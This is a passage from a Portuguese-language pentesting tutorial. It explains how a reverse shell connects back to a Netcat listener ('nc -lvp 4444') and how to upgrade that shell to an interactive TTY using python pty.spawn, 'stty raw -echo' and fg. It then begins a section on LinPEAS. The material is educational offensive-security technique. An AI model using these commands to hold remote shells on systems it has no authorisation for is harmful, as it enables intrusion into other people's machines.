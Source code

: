 3. Redireciona os canais de entrada/saída para o socket.
    
4. Abre um shell (`sh`) e conecta tudo à sua sessão Netcat.
    

Você, do outro lado (no Kali, por exemplo), já está escutando com:

```bash
nc -lvp 4444
```

Assim, você ganha **um shell remoto no servidor**, executando comandos como se estivesse logado localmente.

---

## Atualizando o shell simples para um TTY interativo

Quando essa conexão acontece, o shell é limitado:

- Não responde bem ao `Tab`, `Ctrl+C`, setas, etc.
    
- Falta suporte ao terminal interativo (TTY).
    

### Solução: Atualizar o shell para TTY

Execute no shell reverso:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Isso “espelha” um terminal Bash com suporte básico.

### Depois: Suspender temporariamente o shell (Ctrl+Z)

Isso te devolve ao terminal local. Agora execute:

```bash
stty raw -echo
fg
```

- `stty raw -echo`: ajusta o terminal para modo bruto (sem echo de teclas).
    
- `fg`: retorna para o shell reverso.
    

### Por fim:

```bash
export TERM=xterm
```

Isso melhora o comportamento do shell (cores, `clear`, `nano`, etc).

---

## **1. O que é o LinPEAS?**
